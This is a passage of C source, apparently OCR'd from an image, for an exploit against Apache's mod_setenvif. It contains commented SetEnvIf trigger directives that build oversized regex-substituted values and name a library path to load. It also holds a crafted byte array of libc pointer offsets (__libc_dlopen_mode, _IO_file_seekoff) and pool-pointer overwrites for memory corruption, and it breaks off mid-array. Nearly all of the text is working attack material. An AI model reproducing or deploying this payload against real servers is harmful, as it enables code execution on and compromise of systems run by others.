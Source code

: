   char  *requestData;
  int   requestLength=0;
  int   triggerOffset;
 
/** Payload locations containing libc addresses. Used to generate
 *  payloads for different offsets. For testing, read offset from
 * /proc/<pid>/maps
 */
  int   triggerLibcPointers[]={
      0x4,  // __libc_dlopen_mode
      0x29, // _IO_file_seekoff+407
      -1
  };
 
/*
SetEnvIf Trigger "^(.{2}).*$" T1=$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1$1&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
SetEnvIf T1 "^(.{256})(.{256})(.*)$" T2=$1&$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$3$2
SetEnvIf T2 "^(.{270})(.{242})(.{65280}.{65280}.{7700})(.{236})(.*)$" T33=$3$1&$2$4&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&$5
SetEnvIf T2 "^.{1028}(.{3}).*" T4=XXXX$1
SetEnvIf T2 ".*" T5=/var/www/libTestLib.so
 
*/
 
 
  char  triggerData[]= {
// Stop: 2439, Test: 5c5c   address __libc_dlopen_mode
    0x24, 0x39, 0xe0, 0xc1, 0x90, 0xad, 0x10, 0xc1, // 0x0 == off 0x18
    0x21, 0x40, 0xe0, 0xc1, 0x25, 0x40, 0xe0, 0xc1, // 0x08 == off 0x20
    0x28, 0x40, 0xe0, 0xc1, 0x2c, 0x40, 0xe0, 0xc1, // 0x10 == off 0x28
    0x30, 0x40, 0xe0, 0xc1, 0x34, 0x40, 0xe0, 0xc1, // 0x18 == off 0x30
// incremented, must not be
// 0xff, otherwise endless
    0x38, 0x40, 0xe0, 0xc1, 0x3c, 0x40, 0xe0, 0xc1, // 0x20 == off 0x..
// first fn-call target addr
// use _IO_file_seekoff+407
    0x40, 0xf7, 0xef, 0x10, 0x44, 0x40, 0xe0, 0xc1, // 0x.. == off 0x40
    0x48, 0x40, 0xe0, 0xc1, 0x4c, 0x40, 0xe0, 0xc1, // 0x.. == off 0x48
// pool ptr
    0x48, 0x40, 0x40, 0xa9, 0x54, 0x40, 0xe0, 0xc1, // 0x.. == off 0x50
    0x58, 0x40, 0xe0, 0xc1, 0x5c, 0x40, 0xe0, 0xc1, // 0x.. == off 0x58
    0x60, 0x40, 0xe0, 0xc1, 0x64, 0x40, 0xe0, 0xc1, // 0x.. == off 0x60
//                                point to 2nd jmp address -0x40
    0x68, 0x40, 0xe0, 0xc1, 0x6c, 0xdd, 0x40, 0x40, // 0x.. == off 0x68
//                          pool->active
    0xa9, 0x40, 0xe0, 0xc1, 0xc0, 0x40, 0x40, 0xa9, // 0x.. == off 0x70
    0x78, 0x40, 0xe0, 0xc1, 0x7c, 0x40, 0xe0, 0xc1, // 0x.. == off 0x78
    0x80, 0x40, 0xe0, 0xc1, 0x84, 0x40, 0xe0, 0xc1, // 0x.. == off 0x80
    0x88, 0x40, 0xe0, 0xc1, 0x8c, 0x40, 0xe0, 0xc1, // 0x.. == off 0x88
    0x90, 0x40, 0xe0, 0xc1, 0x94, 0x40, 0xe0, 0xc1, // 0x.. == off 0x90
    0x98, 0x40, 0xe0, 0xc1, 0x9c, 0x40, 0xe0, 0xc1, // 0x80 == off 0x98
    0xa0, 0x40, 0xe0, 0xc1, 0xa4, 0x40, 0xe0, 0xc1, // 0x.. == off 0xa0
    0xa8, 0x40, 0xe0, 0xc1, 0xac, 0x40, 0xe0, 0xc1, // 0x.. == off 0x..
    0xb0, 0x40, 0xe0, 0xc1, 0xb4, 0x40, 0xe0, 0xc1, // 0x.. == off 0xb0